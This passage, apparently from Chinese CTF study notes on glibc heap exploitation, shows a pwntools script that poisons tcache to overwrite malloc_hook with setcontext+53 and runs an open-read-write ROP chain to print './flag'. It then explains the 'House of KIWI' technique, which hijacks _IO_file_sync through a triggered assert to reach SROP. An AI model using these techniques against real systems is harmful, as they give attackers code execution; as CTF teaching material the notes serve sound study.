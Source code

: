 ```python
add(0,0x28)
delete(0)
edit(0,p64(malloc_hook))
add(0,0x28)
add(0,0x28)
edit(0,p64(setcontext+53))



cho(5)
time.sleep(0.5)
pd=p64(pop_rdi)+p64(stack+0x100)+p64(pop_rsi)+p64(2)+p64(pop_rax)+p64(2)+p64(syscall)
pd+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(stack+0x100)+p64(pop_rdx)+p64(0x100)+p64(r)
pd+=p64(pop_rdi)+p64(stack+0x100)+p64(w)
time.sleep(0.5)
sl(pd.ljust(0x100,b'\x00')+b'./flag\x00')


ia()
```



### House of KIWI

禁用free_hook、malloc_hook且输入和输出都用read和write无法刷新IO缓冲区的情况下，则利用assert

#### 原理

在触发assert的时候存在这样一条调用链：

```
assert->malloc_assert->fflush->_IO_file_jumps结构体中的__IO_file_sync
```

在调用`__IO_file_sync`时，rdi为`_IO_2_1_stderr`（在 _IO_list_all之后），rdx为`_IO_helper_jumps`，这两个结构体都是可写的

在无法hook且无法刷新IO缓冲区的情况下，使用house of kiwi的攻击思路是，先将SROP需要的寄存器数据——在2.29以下的libc版本写入`_IO_2_1_stderr`，在2.29以上的libc版本写入`_IO_helper_jumps`，然后覆盖 `_IO_file_sync`为 setcontext+53/setcontext+61，最后只要触发assert就能实现SROP

常见触发assert的方式：

- top_chunk的size小于需要分配的大小时，调用链中的sysmalloc函数中会对top_chunk进行检查

    ```
    ...
    assert ((old_top == initial_top (av) && old_size == 0) ||
            ((unsigned long) (old_size) >= MINSIZE &&
             prev_inuse (old_top) &&
             ((unsigned long) old_end & (pagesize - 1)) == 0));
    ...
    ```

    size<0x20、prev_inuse位为0、其底部没有页对齐都会触发assert

- largebin chunk的size中的flag位存在assert检验（待探究
